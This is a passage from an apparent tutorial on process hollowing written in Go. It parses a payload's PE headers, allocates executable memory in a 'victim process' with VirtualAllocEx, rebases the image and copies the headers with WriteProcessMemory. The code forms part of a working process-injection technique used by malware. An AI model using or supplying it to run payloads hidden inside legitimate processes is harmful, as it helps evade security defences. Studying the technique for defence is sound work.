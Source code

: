 Next, we will need some information regarding the size and offset of several components of the PE. We, therefore, need to be able to read through the headers. We first read the DOS headers, mainly because they contain the offset of the location of the NT headers recorded under `E_lfanew`.
With a pointer to the NT headers, we can then do the necessary casting to populate our structs.

```go
dosHeaders := (*IMAGE_DOS_HEADERS)(unsafe.Pointer(heapStartPtr))
ntHeadersStartPrt := heapStartPtr + uintptr(dosHeaders.E_lfanew)
ntHeaders := (*IMAGE_NT_HEADERS)(unsafe.Pointer(ntHeadersStartPrt))
```

Now that we have access to the NT headers, we can retrieve the size of the image, located in the optional headers. We are going to need this to know how much space to allocate on the remote process to fit our new image in. We allocate memory starting from the unmapped region at `ImageBaseAddress`. Note that we will not need any special permission to write to remote memory since we already own the process.

```go
// Trying to allocate enough memory on victim process to fit our payload in
r1, _, _ = virtualAllocEx.Call(
    uintptr(processInfo.Process),
    uintptr(peb.ImageBaseAddress),
    uintptr(ntHeaders.OptionalHeader.SizeOfImage),
    uintptr(windows.MEM_RESERVE|windows.MEM_COMMIT),
    uintptr(windows.PAGE_EXECUTE_READWRITE),
)
if r1 == 0 {
    log.Fatal("[-] Failed to allocate memory on the victim process")
}

fmt.Println("[+] Successfully allocated memory on victim process")
```

Now that we have the space we need on the remote process, we can start copying the image. This was really the hard part of the implementation.
First of all, we can go ahead and copy the image headers. We do need to change something, the `ImageBase` field on the PE is the location where the image would like to be loaded. This will most likely be something different (much lower) than the `ImageBaseAddress` of the remote process, which is where the image is actually going to be loaded into. Before changing the header value, we need to record the difference between the locations of the `ImageBase` and `ImageBaseAddress` values, as we will need them later for relocation.

```go
// Trying to write payload to target process
// Starting with the headers
var bytesWritten uint32
// Get image base delta for later relocation
deltaImageBase := peb.ImageBaseAddress - uintptr(ntHeaders.OptionalHeader.ImageBase)
ntHeaders.OptionalHeader.ImageBase = uint64(peb.ImageBaseAddress)
r1, _, _ = writeProcessMemory.Call(
    uintptr(processInfo.Process),
    peb.ImageBaseAddress,
    heapStartPtr,
    uintptr(ntHeaders.OptionalHeader.SizeOfHeaders),
    uintptr(unsafe.Pointer(&bytesWritten)),
)
if r1 == 0 || bytesWritten != ntHeaders.OptionalHeader.SizeOfHeaders {
    log.Fatal("[-] Failed to copy headers to remote process")
}
fmt.Println("[+] Copied headers to target process")
```
